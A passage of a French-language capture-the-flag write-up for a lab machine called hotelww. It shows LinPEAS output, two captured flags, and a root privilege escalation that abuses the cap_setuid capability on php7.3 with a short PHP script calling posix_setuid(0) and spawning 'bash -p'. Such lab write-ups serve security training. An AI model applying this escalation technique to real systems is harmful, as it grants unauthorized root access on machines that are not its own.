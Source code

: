 ```plain
       valid_lft forever preferred_lft forever
    inet6 fe80::42:4cff:fe04:56ec/64 scope link 
       valid_lft forever preferred_lft forever
```

A voir les interfaces il semble que l'on touche finalement au but !  

On trouve aussi un second flag :  

```plain
peterg@hotelww:~$ cat Flag2.txt 
6ebccebc6644299d554b7854bc22d297eb0d2335
```

*LinPEAS* trouve un exploit potentiel (*[CVE-2019-13272] PTRACE\_TRACEME*) mais ce qui saute surtout aux yeux ce sont les capabilities données aux binaires *php* et *Vim* :  

```plain
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Current capabilities:
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities (limited to 50):
/usr/bin/php7.3 = cap_setuid+ep
/usr/bin/vim = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```

Ecrire un script PHP qui donne un shell ne suffira pas : on n'est pas sur un cas de binaire setuid qui change l'UID effectif. Il faut donc appeler explicitement setuid pour obtenir ce shell :  

```php
<?php
posix_setuid(0);
system("bash -p");
?>
```

Ca fonctionne :  

```plain
peterg@hotelww:~$ /usr/bin/php7.3 test.php 
root@hotelww:~# id
uid=0(root) gid=1000(peterg) groups=1000(peterg)
root@hotelww:~# cd /root/
root@hotelww:/root# ls
Flag3.txt
root@hotelww:/root# cat Flag3.txt 
c6d2ff8d486ef58f2aa8f16b4658884897230620
```
